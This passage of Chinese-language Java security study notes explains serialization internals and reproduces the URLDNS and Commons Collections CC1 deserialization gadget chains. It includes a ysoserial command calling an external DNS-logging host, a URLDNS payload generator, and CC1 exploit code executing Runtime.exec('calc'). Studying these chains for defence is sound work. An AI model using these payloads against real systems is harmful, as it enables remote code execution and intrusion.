        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```


动态代理生成的类在`反序列化/反序列化`时不会序列化该类的成员变量，并且`serialVersionUID`为`0L` ，也将是说将该类的`Class`对象传递给`java.io.ObjectStreamClass`的静态`lookup`方法时，返回的`ObjectStreamClass`实例将具有以下特性：

1. 调用其`getSerialVersionUID`方法将返回`0L` 。
2. 调用其`getFields`方法将返回长度为零的数组。
3. 调用其`getField`方法将返回`null` 。

但其父类(`java.lang.reflect.Proxy`)在序列化时不受影响，父类中的`h`变量(`InvocationHandler`)将会被序列化，这个`h`存储了动态代理类的处理类实例以及动态代理的接口类的实现类的实例。

动态代理生成的对象(`com.sun.proxy.$ProxyXXX`)序列化的时候会使用一个特殊的协议：`TC_PROXYCLASSDESC(0x7D)`，这个常量在`java.io.ObjectStreamConstants`中定义的。在反序列化时也不会调用`java.io.ObjectInputStream`类的`resolveClass`方法而是调用`resolveProxyClass`方法来转换成类对象的。


## Java类序列化

在很多语言中都提供了对象反序列化支持，Java在JDK1.1(`1997年`)时就内置了对象反序列化(`java.io.ObjectInputStream`)支持。Java对象序列化指的是`将一个Java类实例序列化成字节数组`，用于存储对象实例化信息：类成员变量和属性值。 Java反序列化可以`将序列化后的二进制数组转换为对应的Java类实例`。

Java序列化对象因其可以方便的将对象转换成字节数组，又可以方便快速的将字节数组反序列化成Java对象而被非常频繁的被用于`Socket`传输。 在`RMI(Java远程方法调用-Java Remote Method Invocation)`和`JMX(Java管理扩展-Java Management Extensions)`服务中对象反序列化机制被强制性使用。在Http请求中也时常会被用到反序列化机制，如：直接接收序列化请求的后端服务、使用Base编码序列化字节字符串的方式传递等。

### Java反序列化漏洞

自从2015年[Apache Commons Collections反序列化漏洞](https://issues.apache.org/jira/browse/COLLECTIONS-580)([ysoserial](https://github.com/frohoff/ysoserial)的最早的commit记录是2015年1月29日,说明这个漏洞可能早在2014年甚至更早就已经被人所利用)利用方式被人公开后直接引发了Java生态系统的大地震，与此同时Java反序列化漏洞仿佛掀起了燎原之势，无数的使用了反序列化机制的Java应用系统惨遭黑客疯狂的攻击，为企业安全甚至是国家安全带来了沉重的打击！

直至今日(2019年12月)已经燃烧了Java平台四年之久的反序列化漏洞之火还仍未熄灭。如今的反序列化机制在Java中几乎成为了致命的存在，反序列化漏洞带来的巨大危害也逐渐被我们熟知。2018年1月Oracle安全更新了237个漏洞，而反序列化漏洞就占了28.5%，由此可见Oracle对反序列化机制的深恶痛绝。2012年`JEP 154`提出了移除反序列化机制：[JEP 154: Remove Serialization](https://openjdk.java.net/jeps/154)、[JDK-8046144](https://bugs.openjdk.java.net/browse/JDK-8046144)，但似乎并未通过，移除反序列化是一个持久性的工作，短期内我们还是需要靠自身去解决反序列化机制带来的安全问题。

### Java 序列化/反序列化

在Java中实现对象反序列化非常简单，实现`java.io.Serializable(内部序列化)`或`java.io.Externalizable(外部序列化)`接口即可被序列化，其中`java.io.Externalizable`接口只是实现了`java.io.Serializable`接口。

反序列化类对象时有如下限制：

1. 被反序列化的类必须存在。
2. `serialVersionUID`值必须一致。

除此之外，**反序列化类对象是不会调用该类构造方法**的，因为在反序列化创建类实例时使用了`sun.reflect.ReflectionFactory.newConstructorForSerialization`创建了一个反序列化专用的`Constructor(反射构造方法对象)`，使用这个特殊的`Constructor`可以绕过构造方法创建类实例(前面章节讲`sun.misc.Unsafe` 的时候我们提到了使用`allocateInstance`方法也可以实现绕过构造方法创建类实例)。

#### ObjectInputStream、ObjectOutputStream

`java.io.ObjectOutputStream`类最核心的方法是`writeObject`方法，即序列化类对象。

`java.io.ObjectInputStream`类最核心的功能是`readObject`方法，即反序列化类对象。

所以，只需借助`ObjectInputStream`和`ObjectOutputStream`类我们就可以实现类的序列化和反序列化功能了。

#### java.io.Serializable(内部序列化)

`java.io.Serializable`是一个空的接口,我们不需要实现`java.io.Serializable`的任何方法，代码如下:


您可能会好奇我们实现一个空接口有什么意义？其实实现`java.io.Serializable`接口仅仅只用于`标识这个类可序列化`。实现了`java.io.Serializable`接口的类原则上都需要生产一个`serialVersionUID`常量，反序列化时如果双方的`serialVersionUID`不一致会导致`InvalidClassException` 异常。如果可序列化类未显式声明 `serialVersionUID`，则序列化运行时将基于该类的各个方面计算该类的默认 `serialVersionUID`值。

##### DeserializationTest.java

核心逻辑其实就是使用`ObjectOutputStream`类的`writeObject`方法序列化`DeserializationTest`类，使用`ObjectInputStream`类的`readObject`方法反序列化`DeserializationTest`类

简化后的代码片段如下：

```java
// 序列化DeserializationTest类
ObjectOutputStream out = new ObjectOutputStream(baos);
out.writeObject(t);

// 反序列化输入流数据为DeserializationTest对象
ObjectInputStream in = new ObjectInputStream(bais);
DeserializationTest test = (DeserializationTest) in.readObject();
```


#### 使用反序列化方式创建类实例

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.serialize;

import sun.reflect.ReflectionFactory;

import java.lang.reflect.Constructor;

public class ReflectionFactoryTest {
    public static void main(String[] args) {
        try{
            //获取sun.reflect.ReflectionFactory对象
            ReflectionFactory reflectionFactory = ReflectionFactory.getReflectionFactory();

            // 使用反序列化方式获取DeserializationTest类的构造方法
            Constructor constructor = reflectionFactory.newConstructorForSerialization(DeserializationTest.class, Object.class.getConstructor());
            System.out.println(constructor.newInstance());
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```


#### java.io.Externalizable(外部序列化)

`java.io.Externalizable`和`java.io.Serializable`几乎一样，只是`java.io.Externalizable`接口定义了`writeExternal`和`readExternal`方法需要序列化和反序列化的类实现，其余的和`java.io.Serializable`并无差别。


##### ExternalizableTest.java

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.serialize;

import java.io.*;
import java.util.Arrays;

public class ExternalizableTest implements java.io.Externalizable{
    private String username;

    private String email;

    public void setUsername(String username){
        this.username = username;
    }
    public void setEmail(String email) {
        this.email = email;
    }
    public String getUsername() {
        // make the client log the Object
        return this.username;
    }
    public String getEmail(){
        return this.email;
    }

    /*
    实现了writeExternal和readExternal方法
     */
    @Override
    public void writeExternal(ObjectOutput oot) throws IOException {
        oot.writeObject(username);
        oot.writeObject(email);
    }
    @Override
    public void readExternal(ObjectInput oit) throws IOException, ClassNotFoundException {
        this.username = (String) oit.readObject();
        this.email = (String) oit.readObject();
    }

    public static void main(String[] args) {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();

        try{
            //创建ExternalizableTest对象，并初始化
            ExternalizableTest t = new ExternalizableTest();
            t.setUsername("Y5neKO");
            t.setEmail("1727058834@qq.com");

            //创建Java对象序列化输出流对象
            ObjectOutputStream oos = new ObjectOutputStream(baos);

            //序列化ExternalizableTest类
            oos.writeObject(t);
            oos.flush();
            oos.close();

            System.out.println("序列化后的 数据：");
            System.out.println(baos);

            // 打印ExternalizableTest类序列化以后的字节数组，我们可以将其存储到文件中或者通过Socket发送到远程服务地址
            System.out.println("ExternalizableTest类序列化后的字节数组:" + Arrays.toString(baos.toByteArray()));

            // 利用ExternalizableTest类生成的二进制数组创建二进制输入流对象用于反序列化操作
            ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());

            //创建Java对象输入流
            ObjectInputStream ois = new ObjectInputStream(bais);

            //反序列化输入流数据为ExternalizableTest对象
            ExternalizableTest test = (ExternalizableTest) ois.readObject();
            System.out.println("用户名:" + test.getUsername() + "\n邮箱:" + test.getEmail());
            ois.close();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```


### 自定义序列化(writeObject)和反序列化(readObject)

实现了`java.io.Serializable`接口的类，还可以定义如下方法(`反序列化魔术方法`)，这些方法将会在类序列化或反序列化过程中调用：

1. **`private void writeObject(ObjectOutputStream oos)`,自定义序列化。**
2. **`private void readObject(ObjectInputStream ois)`，自定义反序列化。**
3. `private void readObjectNoData()`。
4. `protected Object writeReplace()`，写入时替换对象。
5. `protected Object readResolve()`。

具体的方法名定义在`java.io.ObjectStreamClass#ObjectStreamClass(java.lang.Class<?>)`，其中方法有详细的声明。

### URLDNS利用链

```
环境：
JDK版本：不限
组件版本：JDK原生
```

#### 分析

URLDNS主要的作用就在于检测服务器上是否存在反序列化漏洞，如果存在就会发送一个DNS请求，这里所利用的就类似于SSRF的一中形式，所以漏洞的触发点就在URL上面（攻击者有可能找RCE的时候没找到，然后找到了URL上面，能够利用一下上面的SSRF）

利用链只依赖jdk本身提供的类，不依赖其他第三方类，所以具有很高的通用性，可以用于判断目标是否存在反序列化漏洞。

我们可以从ysoserial工具的URLDNS链的payload注释中看见整条利用链


可以看到触发点是HashMap类的readObject方法，直接开始审计


可以看到HashMap实现了Serializable接口，跟进到readObject方法

关键代码：

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);
            @SuppressWarnings({"rawtypes","unchecked"})
                Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

readObject首先从输出流中读取序列化数据，然后开始一系列反序列化操作，到最后来到了gadget中的putVal方法


putVal方法本身是用来实现Map.put及相关方法，我们要关注的是其中调用的hash方法

跟进hash方法


如果key对象不是null的话就会调用hashCode方法，而这个key对象来自哪里

反观一下readObject方法


我们发现key对象就来自于反序列化后的内容，也就是我们传入的URL类对象

因此我们回到hashCode方法，跟进`java.net.URL`类


可以看到URL类实现了Serializable接口

继续跟进到触发点hashCode方法


可以看到如果hashCode值不等于-1的话，就会直接返回hashCode的值，则不会触发url解析

如果等于-1就会调用handler的hashCode方法，跟进看看handler对象


发现是URLStreamHandler类，也就是说这里实际上调用的是handler的hashCode方法，跟进


可以看到调用了getHostAddress方法，跟进


这里通过InetAddress类的getByName方法进行了DNS解析，这就是最终产生DNS解析记录的地方

整个调用链如下：

```sh
HashMap.readObject() -> HashMap.putVal() -> HashMap.hash() -> URL.hashCode() -> URLStreamHandler.hashCode().getHostAddress() -> URLStreamHandler.getHostAddress().InetAddress.getByName()
```


#### 复现

我们通过一段反序列化代码测试一下

**TestURLDNS.java**

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.serialize;

import java.io.*;

public class TestURLDNS {
    public static void main(String[] args) throws IOException, ClassNotFoundException {

        FileInputStream fis = new FileInputStream(new File("URLDNS"));
        ObjectInputStream ois = new ObjectInputStream(fis);

        Object test = ois.readObject();
    }
}
```

通过ysoserial生成URLDNS的payload

```shell
java -jar ysoserial-all.jar URLDNS "http://d1dd3347.su19.org" > URLDNS
```

我们直接在HashMap类的readObject方法下断点，然后运行


可以看到我们的payload反序列化后作为key传入hash函数


此时key不为null，调用URL类的hashCode方法


上一步中传入hashCode值为-1，紧接着调用handler（URLStreamHandler类）的hashCode方法，并传入this（URL类）


后面就是形成dns解析的过程了，我们直接略过


成功解析

#### 思考

回到gadget，我们发现HashMap.put()方法中也调用了hash方法


按道理来说进行put操作的时候也会触发dns解析

**TestHashMapPut.java**

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.serialize;

import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class TestHashMapPut {
    public static void main(String[] args) throws MalformedURLException {
        HashMap map = new HashMap();
        URL url = new URL("http://d1dd3347.su19.org/");
        map.put(url, 1);
    }
}
```


可以看到确实触发了解析，我们再看一下ysoserial工具序列化生成payload的过程


这里也用到了HashMap.put方法，但没有产生dns解析记录

其实是因为重写了openConnection方法和getHostAddress方法，作者是为了防止干扰误判才进行了重写


那这样的话反序列化后会不会也执行不了dns查询呢

看一下URL类中handler的处理


我们发现是通过transient进行修饰的，而被transient修饰的属性无法被序列化，因此在最终反序列化的过程中仍然能执行dns查询

**TestTransient.java**

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.serialize;

import java.io.*;
import java.util.Arrays;

public class TestTransient {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Test test = new Test();

        // 设置值
        test.test = "Test Value";
        System.out.println(test.test);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(test);
        System.out.println(Arrays.toString(byteArrayOutputStream.toByteArray()));
        // 反序列化
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        Test serTest = (Test) objectInputStream.readObject();
        System.out.println(serTest.test);
    }
}
class Test implements Serializable {
    transient public String test;
}
```


可以看到序列化后test的值为null，并没有代入其中

#### EXP

通过对URLDNS利用链的分析，我们可以自行构建EXP

首先来到最外层的URL类的hashCode方法


第一步保证hashCode值为-1，我们可以通过反射设置属性值

紧接着来到handler对象，发现是实例化的URLStreamHandler，但是他本身是个抽象类无法被实例化


也就是说我们实例化的其实是他的子类


这里会根据URL类中的构造方法来识别protocal，从而实例化相应协议的handler


之前提到过为了防止序列化生成payload时产生多余解析，我们需要重写一下handler中的getHostAddress方法


而openConnection则作为抽象类必须被实现


我们可以通过URL类的构造方法`public URL(URL context, String spec, URLStreamHandler handler)`来自定义handler，从而重写上述两种方法

接着我们利用HashMap.put方法作为跳板，调用HashMap.putVal方法和HashMap.Hash方法


接着序列化HashMap对象后输出payload即可

由此我们可以构造exp

**TestURLDNSExp.java**

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.serialize;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.net.*;
import java.util.HashMap;

public class TestURLDNSExp {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {

        //通过实例化URLStreamHandler子类自定义handler，从而实现重写
        URLStreamHandler handler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) {
                return null;
            }
            @Override
            protected synchronized InetAddress getHostAddress(URL u){
                return null;
            }
        };

        //反射获取URL类并使用自定义handler进行实例化
        Class clazz = Class.forName("java.net.URL");
        Constructor constructor = clazz.getConstructor(URL.class,String.class,URLStreamHandler.class);
        Object object = constructor.newInstance(null,"http://urldns.d1dd3347.su19.org",handler);
        //反射获取URL类中的hashCode属性，并修改访问权限
        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);

        //实例化HashMap对象
        HashMap ht = new HashMap();
        //调用HashMap.put方法传入
        ht.put(object,1);
        //注意这里是put后再将hashCode设置为-1，否则put过程会通过hash方法重新覆盖
        field.set(object,-1);

        //序列化HashMap输出payload到文件
        FileOutputStream fos = new FileOutputStream("H:\\学习记录\\学习记录Markdown\\Java安全通用\\URLDNS2");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(ht);
        
        System.out.println(ht);
    }
}
```

成功生成payload文件，并验证成功


### Apache Commons Collections反序列化漏洞

`Apache Commons`是`Apache`开源的Java通用类项目在Java中项目中被广泛的使用，`Apache Commons`当中有一个组件叫做`Apache Commons Collections`，主要封装了Java的`Collection（集合）`相关类对象。本节将逐步详解`Collections`反序列化攻击链(仅以`TransformedMap`调用链为示例)最终实现反序列化`RCE`。


### CC1

```
环境：
JDK版本：jdk8u71以下
组件版本：commons-collections-3.2.1
```

#### 分析

和URLDNS链不同的是，CC1可以用来执行命令，作为整个CC链的起点，对整个CC链的发展有着巨大的作用

首先来到ysoserial工具的payload，从注释我们可以看见整个利用链

```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
```

我们可以看到，CC1链的终点是InvokerTransformer.transform方法，来到collections源码开始审计

发现transform方法的源头在Transformer接口


从名字我们可以看出这个接口是用于类型转换的，在开发中比较常用，我们往下寻找实现了这个接口并且同时实现了反序列化接口的类


我们在其中找到了InvokerTransformer类，可以看到他也实现了Serializable接口


我们往下观察一下他的构造器，以及重写的transform方法

构造器：

```java
    /**
     * Constructor for no arg instance.
     * 
     * @param methodName  the method to call
     */
    private InvokerTransformer(String methodName) {
        super();
        iMethodName = methodName;
        iParamTypes = null;
        iArgs = null;
    }

    /**
     * Constructor that performs no validation.
     * Use <code>getInstance</code> if you want that.
     * 
     * @param methodName  the method to call
     * @param paramTypes  the constructor parameter types, not cloned
     * @param args  the constructor arguments, not cloned
     */
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
```

transform方法：

```java
    /**
     * Transforms the input to result by invoking a method on the input.
     * 
     * @param input  the input object to transform
     * @return the transformed result, null if null input
     */
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
                
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
```

其中第二种有参构造器，接受了三个参数即：参数为方法名，所调用方法的参数类型，所调用方法的参数值

接着我们看一下transform方法


其中传入的input对象，相当于一个反射执行方法，结合构造器来看，这里的参数都是可控的，我们就可以通过这个来调用任意类的任意方法，这里以Runtime类为例

**TestInvokerTransformer.java**

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.deserialize;

import org.apache.commons.collections.functors.InvokerTransformer;

public class TestInvokerTransformer {
    public static void main(String[] args) {
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invokerTransformer.transform(runtime);
    }
}
```


相当于替我们执行了反射过程，接下来我们需要找一个重写了readObject，且实现了transform方法的子类

直接查找用法，发现了很多调用了transform的方法，我们关注TransformedMap类下的checkSetValue方法


接下来找到构造器

```java
    /**
     * Constructor that wraps (not copies).
     * <p>
     * If there are any elements already in the collection being decorated, they
     * are NOT transformed.
     * 
     * @param map  the map to decorate, must not be null
     * @param keyTransformer  the transformer to use for key conversion, null means no conversion
     * @param valueTransformer  the transformer to use for value conversion, null means no conversion
     * @throws IllegalArgumentException if map is null
     */

	//接受三个参数，第一个为Map,我们可以传入之前讲到的HashMap,第二个和第三个就是Transformer我们需要的了，可控。
    protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

这里的构造器和checkSetValue方法都是protected权限，所以我们要找到一个内部实例化的方法


找到一个public类型的decorate方法，且三个参数均为可控，而反观checkSetValue方法调用的是valueTransformer的transform方法

因此我们需要先调用这个方法实例化TransformedMap类，传入我们自定义的transformer（即invokerTransformer），再想办法调用checkSetValue方法即可

```java
//首先通过反射获取exec方法
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
//invokerTransformer.transform(runtime);

//实例化一个HashMap对象用于decorate方法接收
HashMap map = new HashMap();
//调用public方法decorate实例化
Map transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
```

接下来找找哪里调用了checkSetValue方法，直接查找用法


我们发现只有一个地方调用了，跟进AbstractInputCheckedMapDecorator类的setValue方法


这里的MapEntry定义的其实是AbstractMapEntryDecorator的子类

entry代表的是Map中的一个键值对，而我们在Map中我们可以看到有setValue方法，而我们在对Map进行遍历的时候可以调用setValue这个方法


上面子类的setValue其实是重写的父类的setValue方法，我们来看一下AbstractMapEntryDecorator类


而这个类又引入了Map.Entry接口，我们只需要进行Map遍历，就可以调用setValue方法，从而调用checkSetValue方法

恰好TransformedMap对象又是Map类型，因此我们只需要遍历TransformedMap对象即可

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.deserialize;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class TestCC1 {
    public static void main(String[] args) {
        //首先通过反射获取exec方法
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        //invokerTransformer.transform(runtime);

        //实例化一个HashMap对象用于decorate方法接收
        HashMap<Object,Object> map = new HashMap<>();
        //首先通过put方法推一个键值对进去，才能进行遍历
        map.put("test","value");
        //调用public方法decorate实例化
        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, invokerTransformer);

        //遍历Map的常用格式
        for(Map.Entry<Object, Object> entry:transformedMap.entrySet()){
            //通过setValue方法传入Runtime对象
            entry.setValue(runtime);
        }
    }
}
```


成功执行，但是这里并没有用到readObject方法，因此我们需要找到一个readObject方法，可以遍历Map，并且调用这个setValue方法

我们继续查找setValue的用法，最后在AnnotationInvocationHandler类中找到了一个调用了setValue的readObject方法，同时还能代替Map的遍历过程


因为readObject是private，所以接下来我们找到这个类的构造器

```java
//接受两个参数，第一个是继承了注解的class，第二个是个Map,第二个参数我们可控，可以传入我们之前的transformedmap类
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```

其中memberValues是可控的，我们可以传入自己的需要的类，然后实现setValue方法


但是我们可以看到，这个类并不是public声明，所以只能在包内被调用，因此我们需要通过反射来获取

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.deserialize;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class TestCC1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        //首先通过反射获取exec方法
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        //invokerTransformer.transform(runtime);

        //实例化一个HashMap对象用于decorate方法接收
        HashMap<Object,Object> map = new HashMap<>();
        //首先通过put方法推一个键值对进去，才能进行遍历
        map.put("test","value");
        //调用public方法decorate实例化
        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, invokerTransformer);

//        //遍历Map的常用格式
//        for(Map.Entry<Object, Object> entry:transformedMap.entrySet()){
//            //通过setValue方法传入Runtime对象
//            entry.setValue(runtime);
//        }

        //反射获取AnnotationInvocationHandler类
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Override.class, transformedMap);

        serialize(object);
        unserialize("H:\\学习记录\\学习记录Markdown\\Java安全通用\\CC1");
    }

    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos=new ObjectOutputStream(Files.newOutputStream(Paths.get("H:\\学习记录\\学习记录Markdown\\Java安全通用\\CC1")));
        oos.writeObject(object);
    }

    public static void unserialize(String filename) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream=new ObjectInputStream(new FileInputStream(filename));
        objectInputStream.readObject();
    }
}
```

运行之后发现并没有弹计算器，我们打开序列化后的数据，发现找不到最重要的Runtime类


跟进到Runtime类，发现并没有实现序列化接口，因此不能被序列化


但是原型类实现了序列化接口，我们可以通过获取Runtime的原型类进行反射


```java
Class rt = Runtime.class;
Method getRuntimeMethod = rt.getMethod("getRuntime",null);
Runtime runtime = (Runtime) getRuntimeMethod.invoke(null,null);
Method execMethod = rt.getMethod("exec", String.class);
execMethod.invoke(runtime,"calc");
```

我们之前提到过invokerTransformr类的transform方法可以代替反射操作，我们用transform改写一下

```java
//用transform方法改写
//获取getRuntime方法,首先获取Class原型类的getDeclaredMethod方法，然后定义传入参数类型，最后传入两个参数
Method getRuntime = (Method) new InvokerTransformer(
        "getDeclaredMethod",
        new Class[]{String.class,Class[].class},
        new Object[]{"getRuntime",null}
).transform(rt);
//获取Runtime对象,首先获取invoke方法，定义参数类型，最后两个null
Runtime runtime = (Runtime) new InvokerTransformer(
        "invoke",
        new Class[]{Object.class,Object[].class},
        new Object[]{null,null}
).transform(getRuntime);
//反射执行exec方法
new InvokerTransformer(
        "exec",
        new Class[]{String.class},
        new Object[]{"calc"}
).transform(runtime);
```

